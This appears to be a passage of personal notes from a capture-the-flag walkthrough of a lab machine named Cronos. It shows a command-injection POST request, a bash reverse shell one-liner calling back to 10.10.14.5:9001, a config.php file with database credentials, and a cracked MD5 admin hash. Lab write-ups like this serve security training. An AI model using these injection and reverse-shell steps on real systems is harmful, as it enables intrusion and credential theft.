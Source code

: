# Foothold
## Reverse Shell

### The POST request
```
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: http://admin.cronos.htb
Connection: close
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=bfaodntocohp2c7vqn8731k3s4
Upgrade-Insecure-Requests: 1
command=sleep+5&host=
```

- Reverse Shell payload
```bash 
bash -c 'bash -i  >& /dev/tcp/10.10.14.5/9001 0>&1' 
``` 
![[Pasted image 20210329061212.png]]

## Current User
- Currently as www-data. Cat out config.php
 ```php
 <?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>

```
- Query admin.users table
```mysql
mysql> show tables;
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+
1 row in set (0.01 sec)

mysql> select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)

```
- MD5 hash. Crack using hashcat : **admin**:**1327663704**, but doesn't work other user.
- User named noulis